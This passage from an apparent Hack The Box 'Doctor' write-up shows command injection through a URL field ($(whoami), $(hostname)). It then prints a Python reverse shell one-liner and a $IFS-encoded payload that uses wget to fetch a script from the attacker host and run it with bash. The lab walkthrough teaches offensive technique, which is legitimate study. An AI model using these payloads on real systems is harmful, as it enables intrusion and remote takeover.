 ```shell
cfx:  ~/Documents/htb/doctor
→ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [14/Nov/2020 19:53:22] code 404, message File not found
10.10.10.209 - - [14/Nov/2020 19:53:22] "GET /cfx HTTP/1.1" 404 -
```

#### RCE test

Next, We'll craft our payload as `http://10.10.14.27/$(whoami)` and submit the post again, instantly we see username as web:

```shell
10.10.10.209 - - [14/Nov/2020 19:56:50] "GET /web HTTP/1.1" 404 -
```

Changing the payload to `http://10.10.14.27/$(hostname)` resulted in giving the hostname as doctor:

```shell
10.10.10.209 - - [14/Feb/2021 19:58:04] "GET /doctor HTTP/1.1" 404 -
```

#### Reverse Shell - Web

Now that we have a working RCE, our next goal should be to get a reverse shell.

Although there are certain limitations to this method as sending complex reverse shell payloads was breaking the request as the payload didn't like space so we have to use `$IFS` (Internal field separator) and we have to combine arguments with `'`

So instead of writing complex payloads, I decided to host a python3 reverse shell payload on the python server and call the reverse shell payload using wget and next run the script using bash:

- Reverse shell payload:

```shell
cfx:  ~/Documents/htb/doctor
→ cat rev.bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",8021));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

- Payload for Command Injection:

```shell
http://10.10.14.27/$(wget$IFS'http://10.10.14.27/rev.bash'$IFS;$IFS'bash'$IFS'rev.bash')
```
This payload will fetch our python reverse shell file `rev.bash` and separated by `;` next command will execute dropping a reverse shell.
